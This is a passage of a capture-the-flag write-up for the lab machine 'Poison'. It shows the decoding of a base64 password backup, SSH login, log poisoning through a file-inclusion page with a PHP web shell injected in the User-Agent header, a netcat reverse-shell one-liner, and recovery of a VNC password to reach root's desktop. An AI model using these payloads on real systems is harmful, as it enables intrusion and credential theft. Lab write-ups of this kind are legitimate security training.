Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
$
```

```sh
root@kali:~/poison# for i in $(seq 0 12); do echo -n '| base64 -d';done
| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d
root@kali:~/poison#
```

```sh
root@kali:~/poison# cat pwdbackup.txt | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d
Charix!2#4%6&8(0
root@kali:~/poison#
```

###### User Shell

```sh
root@kali:~/poison# ssh charix@10.10.10.84
The authenticity of host '10.10.10.84 (10.10.10.84)' can't be established.
ECDSA key fingerprint is SHA256:rhYtpHzkd9nBmOtN7+ft0JiVAu8qnywLb48Glz4jZ8c.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.84' (ECDSA) to the list of known hosts.

Password for charix@Poison:
Last login: Sun Sep  9 15:41:25 2018 from 10.10.14.5
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Need to quickly return to your home directory? Type "cd".
		-- Dru <genesis@istar.ca>
charix@Poison:~ % ls -l
total 36
-rw-r--r--  1 charix  charix  25304 Aug  2 15:12 privcheck.py
-r--r--r--  1 charix  charix      0 Sep  9 15:41 secret
-rw-r-----  1 charix  charix    166 Mar 19 16:35 secret.zip
-rw-r-----  1 root    charix     33 Mar 19 16:11 user.txt
charix@Poison:~ % cat user.txt
eaacdfb2d141b72a589233063604209c
charix@Poison:~ %
```

###### Shell via Log Poisoning

```
http://10.10.10.84/browse.php?file=/var/log/httpd-access.log
```

```sh
root@kali:~/poison# curl http://10.10.10.84/browse.php?file=/var/log/httpd-access.log |tail
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 12.6M    0 12.6M    0     0   734k      0 --:--:--  0:00:17 --:--:-- 1302k
127.0.0.1 - - [09/Sep/2018:21:57:46 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
127.0.0.1 - - [09/Sep/2018:21:57:47 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
127.0.0.1 - - [09/Sep/2018:21:57:48 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
127.0.0.1 - - [09/Sep/2018:21:57:50 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
127.0.0.1 - - [09/Sep/2018:21:57:51 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
127.0.0.1 - - [09/Sep/2018:21:57:52 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
127.0.0.1 - - [09/Sep/2018:21:57:53 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
10.10.14.4 - - [09/Sep/2018:22:07:41 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 13242926 "http://10.10.10.84/" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
10.10.14.4 - - [09/Sep/2018:22:08:09 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 13243134 "http://10.10.10.84/" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
10.10.14.4 - - [09/Sep/2018:22:08:42 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 13243342 "-" "curl/7.60.0"
root@kali:~/poison#
```

```
http://10.10.10.84/RandomPage
```


```sh
root@kali:~/poison# curl http://10.10.10.84/browse.php?file=/var/log/httpd-access.log |tail
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 12.6M    0 12.6M    0     0   559k      0 --:--:--  0:00:23 --:--:--  972k
127.0.0.1 - - [09/Sep/2018:21:57:48 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
127.0.0.1 - - [09/Sep/2018:21:57:50 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
127.0.0.1 - - [09/Sep/2018:21:57:51 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
127.0.0.1 - - [09/Sep/2018:21:57:52 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
127.0.0.1 - - [09/Sep/2018:21:57:53 +0200] "OPTIONS * HTTP/1.0" 200 - "-" "Apache/2.4.29 (FreeBSD) PHP/5.6.32 (internal dummy connection)"
10.10.14.4 - - [09/Sep/2018:22:07:41 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 13242926 "http://10.10.10.84/" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
10.10.14.4 - - [09/Sep/2018:22:08:09 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 13243134 "http://10.10.10.84/" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
10.10.14.4 - - [09/Sep/2018:22:08:42 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 13243342 "-" "curl/7.60.0"
10.10.14.4 - - [09/Sep/2018:22:08:51 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 13243475 "-" "curl/7.60.0"
10.10.14.4 - - [09/Sep/2018:22:11:12 +0200] "GET /RandomPage HTTP/1.1" 404 208 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
root@kali:~/poison#
```


```php
User-Agent: <?php echo('You dont see the PHP'); ?>
```


```sh
root@kali:~/poison# curl http://10.10.10.84/browse.php?file=/var/log/httpd-access.log

10.10.14.4 - - [09/Sep/2018:22:51:07 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 1 "-" "curl/7.60.0"
10.10.14.4 - - [09/Sep/2018:22:51:10 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 127 "-" "curl/7.60.0"
10.10.14.4 - - [09/Sep/2018:22:51:32 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 255 "http://10.10.10.84/" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
10.10.14.4 - - [09/Sep/2018:22:51:49 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 458 "http://10.10.10.84/" "PleaseSebscribe"
10.10.14.4 - - [09/Sep/2018:22:51:53 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 608 "http://10.10.10.84/" "PleaseSebscribe"
10.10.14.4 - - [09/Sep/2018:22:52:19 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 758 "http://10.10.10.84/" "PleaseSubscribe"
10.10.14.4 - - [09/Sep/2018:22:52:23 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 908 "http://10.10.10.84/" "PleaseSubscribe"
10.10.14.4 - - [09/Sep/2018:22:52:27 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 1058 "http://10.10.10.84/" "PleaseSubscribe\""
10.10.14.4 - - [09/Sep/2018:22:52:31 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 1211 "http://10.10.10.84/" "PleaseSubscribe\""
10.10.14.4 - - [09/Sep/2018:22:52:35 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 1364 "http://10.10.10.84/" "PleaseSubscribe'"
10.10.14.4 - - [09/Sep/2018:22:52:36 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 1516 "http://10.10.10.84/" "PleaseSubscribe'"
10.10.14.4 - - [09/Sep/2018:22:54:01 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 1668 "-" "curl/7.60.0"
10.10.14.4 - - [09/Sep/2018:22:54:41 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 1797 "http://10.10.10.84/" "You dont see the PHP"
root@kali:~/poison#
```

```php
User-Agent: <?php system($_REQUEST['cmd']); ?>
```


```
view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=uname
```


[`Reverse Shell Cheat Sheet`](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc 10.10.14.4 9003 >/tmp/f
```


```sh
root@kali:~/poison# nc -nlvp 9003
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9003
Ncat: Listening on 0.0.0.0:9003
Ncat: Connection from 10.10.10.84.
Ncat: Connection from 10.10.10.84:34220.
id
uid=80(www) gid=80(www) groups=80(www)
ls -l
total 56
-rw-r--r--  1 root  wheel    33 Jan 24  2018 browse.php
-rw-r--r--  1 root  wheel   289 Jan 24  2018 index.php
-rw-r--r--  1 root  wheel    27 Jan 24  2018 info.php
-rw-r--r--  1 root  wheel    33 Jan 24  2018 ini.php
-rw-r--r--  1 root  wheel    90 Jan 24  2018 listfiles.php
-rw-r--r--  1 root  wheel    20 Jan 24  2018 phpinfo.php
-rw-r--r--  1 root  wheel  1267 Mar 19 16:27 pwdbackup.txt
```

###### Gaining root using VLC running as root

[`Using the SSH "Konami Code" (SSH Control Sequences)`](https://pen-testing.sans.org/blog/2015/11/10/protected-using-the-ssh-konami-code-ssh-control-sequences)

```sh
root@kali:~/poison# ssh -D 1080 -L6801:127.0.0.1:5801 -L6901:127.0.0.1:5901 charix@10.10.10.84
Password for charix@Poison:
Last login: Sun Sep  9 22:02:09 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
You can look through a file in a nice text-based interface by typing

	less filename
charix@Poison:~ %
```

```sh
root@kali:~# netstat -antp | grep 6801
tcp        0      0 127.0.0.1:6801          0.0.0.0:*               LISTEN      7705/ssh
tcp6       0      0 ::1:6801                :::*                    LISTEN      7705/ssh
root@kali:~# netstat -antp | grep 6901
tcp        0      0 127.0.0.1:6901          0.0.0.0:*               LISTEN      7705/ssh
tcp6       0      0 ::1:6901                :::*                    LISTEN      7705/ssh
root@kali:~#
```

```sh
root@kali:~/poison# scp charix@10.10.10.84:secret.zip .
Password for charix@Poison:
secret.zip                                                                                                                                                                100%  166     0.9KB/s   00:00
root@kali:~/poison#
```

```sh
root@kali:~/poison# unzip secret.zip -d secret
Archive:  secret.zip
[secret.zip] secret password:
 extracting: secret/secret
root@kali:~/poison#
root@kali:~/poison# cd secret/
root@kali:~/poison/secret# ls
secret
root@kali:~/poison/secret# file secret
secret: Non-ISO extended-ASCII text, with no line terminators
root@kali:~/poison/secret#
root@kali:~/poison/secret# cat secret
��[|Ֆz!
root@kali:~/poison/secret# xxd secret
00000000: bda8 5b7c d596 7a21                      ..[|..z!
root@kali:~/poison/secret#
```

- [`vncpwd`](https://github.com/jeroennijhof/vncpwd)

```sh
root@kali:~/poison# git clone https://github.com/jeroennijhof/vncpwd.git
Cloning into 'vncpwd'...
remote: Counting objects: 28, done.
remote: Total 28 (delta 0), reused 0 (delta 0), pack-reused 28
Unpacking objects: 100% (28/28), done.
root@kali:~/poison#
```

```sh
root@kali:~/poison# cd vncpwd/
root@kali:~/poison/vncpwd# gcc -o vncpwd vncpwd.c d3des.c
root@kali:~/poison/vncpwd# ls
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd  vncpwd.c
root@kali:~/poison/vncpwd#
```

```sh
root@kali:~/poison/secret# cp secret ../vncpwd/
```

```sh
root@kali:~/poison/vncpwd# ./vncpwd secret
Password: VNCP@$$!
root@kali:~/poison/vncpwd#
```

```sh
root@kali:~/poison# vncviewer 127.0.0.1::6901
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

